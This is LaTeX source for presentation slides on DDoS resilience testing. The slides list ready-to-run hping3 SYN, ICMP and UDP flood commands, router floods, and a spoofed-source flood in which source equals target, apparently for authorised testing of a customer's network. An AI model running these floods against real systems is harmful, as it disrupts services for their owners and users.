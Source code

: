 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list1}
\item The minimal run contains at least these:
\begin{list2}
\item SYN flood: \verb+hping3 -q -c 1000000  -i u60 -S -p 80  $CUST_IP &+
\item SYN+ACK: \verb+hping3 -q -c 1000000  -i u60 -S -A -p 80  $CUST_IP &+
\item ICMP flood: \verb+hping3 -q -c 1000000 --flood -1 $CUST_IP &+
\item UDP flood: \verb+hping3 -q -c 1000000 --flood -2 $CUST_IP &+
\end{list2}
\item Vary the speed using the packet interval \verb+-i u60+ up/down
\item Use flooding with caution, runs max speeeeeeeeeeeed \smiley
\item TCP testing use a port which is allowed through the network, often 80/443
\item Focus on attacks which are hard to block, example TCP SYN must be allowed in
\item Also if you found devices like routers in front of environment\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 22 $ROUTER_IP+\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 179 $ROUTER_IP+
\end{list1}


Spoofed packets src=dst=target \smiley

Flooding with spoofed packet source, within customer range

\begin{alltt}\small

-a --spoof hostname
    Use this option in order to set a fake IP  source  address,  this
    option ensures that target will not gain your real address.
\end{alltt}

\verb+hping3 -q --flood -p 80 -S -a $CUST_IP $CUST_IP+

Preferably using a test-case you know fails, to see effect

Still amazed how often this works




Using the built-in option -f for hping
\end{document}
